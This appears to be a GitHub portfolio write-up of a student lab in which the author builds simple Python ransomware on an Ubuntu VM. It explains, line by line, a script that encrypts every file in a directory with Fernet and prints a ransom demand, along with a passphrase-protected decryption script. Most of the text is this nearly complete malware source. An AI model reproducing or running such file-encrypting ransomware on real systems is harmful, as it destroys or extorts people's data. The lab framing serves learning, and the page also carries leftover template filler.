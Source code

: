 # Ransomware
Deploying ransomware using Python

## Objective


As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand one of the methods of carrying out a ransomware attacks.

### Skills Learned


- Advanced understanding of SIEM concepts and practical application.
- Python scripting
- Cryptography
- 


### Tools Used
[Bullet Points - Remove this afterwards]

- Python
  

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

ref:

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py" : (next line)continue(next line) files.append(file) // This is seperating our script files that are in the same directory from the file list we created earlier in the script.

print(files) // Will display the "files" list in the terminal.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: // sets script to write to "thefile".

thefile.write(contents_encrypted) // writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed

DECRYPT

![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

ref:

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password is entered correctly by the user, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.

Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

 cat file2.txt // this will display the contents of a the files.
 
cat thekey.key // This is our 128bit encryption key

with = resource management as = used along with to allocater where to input resources / for = loop

no dropper

*Ref 1: Network Diagram*
